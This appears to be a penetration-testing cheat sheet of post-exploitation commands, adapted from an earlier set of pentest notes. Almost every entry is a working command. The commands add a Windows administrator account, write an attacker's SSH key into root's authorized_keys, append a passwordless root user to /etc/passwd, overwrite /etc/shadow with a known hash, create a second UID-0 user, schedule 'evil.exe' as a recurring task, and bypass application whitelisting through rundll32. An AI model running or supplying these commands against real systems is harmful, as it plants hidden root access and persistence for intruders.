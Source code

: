 ### Creating User and Adding to Local Administrators <a id="creating-user-and-adding-to-local-administrators"></a>

```bash
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Creating SSH Authorized Keys <a id="creating-ssh-authorized-keys"></a>

```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

### Creating Backdoor User w/o Password <a id="creating-backdoor-user-w-o-password"></a>

```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd​

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

### Creating Another root User <a id="creating-another-root-user"></a>

```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password <a id="generating-openssl-password"></a>

```bash
openssl passwd -1 password # output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors <a id="persistent-back-doors"></a>

```bash
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Code Execution / Application Whitelist Bypass <a id="code-execution-application-whitelist-bypass"></a>

### Ieframe.dll <a id="ieframe-dll"></a>

```bash
rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url
```

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

